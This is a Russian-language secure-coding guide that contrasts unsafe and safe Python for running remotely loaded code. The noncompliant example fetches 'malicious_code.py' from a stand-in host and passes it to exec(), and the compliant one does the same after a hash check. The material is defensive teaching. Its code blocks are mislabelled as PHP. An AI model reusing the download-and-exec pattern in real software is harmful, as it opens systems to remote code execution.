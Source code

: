 
Совместимый код использует более осторожный подход при включении функциональности из недоверенного элемента управления. Вместо непосредственного выполнения кода он использует функцию ast.parse() из модуля ast для разбора и оценки кода в виде абстрактного синтаксического дерева (AST). Это позволяет более безопасно анализировать код, не выполняя его напрямую.

Разбирая недоверенный код в виде AST, совместимый код получает возможность проверить и подтвердить структуру и содержимое кода, прежде чем принять решение о его выполнении. Это снижает риск выполнения произвольного или вредоносного кода, обеспечивая дополнительный уровень безопасности.





## Загрузка кода без проверки целостности

<span class="d-inline-block p-2 mr-1 v-align-middle bg-red-000"></span>Несоответствующий код:


```php
import requests

# Загрузите код без проверки целостности
code_url = 'http://example.com/malicious_code.py'
response = requests.get(code_url)
code = response.text

# Выполните загруженный код
exec(code)
```

Несоответствующий код напрямую загружает код из удаленного источника с помощью библиотеки запросов, не выполняя никакой проверки целостности. Затем он переходит к выполнению загруженного кода с помощью функции exec(). Такой подход может быть опасен, поскольку позволяет выполнить потенциально вредоносный или неавторизованный код без проверки его целостности.





<span class="d-inline-block p-2 mr-1 v-align-middle bg-green-000"></span>Соответствующий код:


```php
import requests
import hashlib

# Загрузите код с проверкой целостности
code_url = 'http://example.com/malicious_code.py'
response = requests.get(code_url)
code = response.text

# Проверьте целостность кода
expected_hash = '4a2d8f37ac...'
calculated_hash = hashlib.sha256(code.encode()).hexdigest()
if calculated_hash == expected_hash:
    exec(code)
else:
    print("Integrity check failed. Code execution aborted.")
```
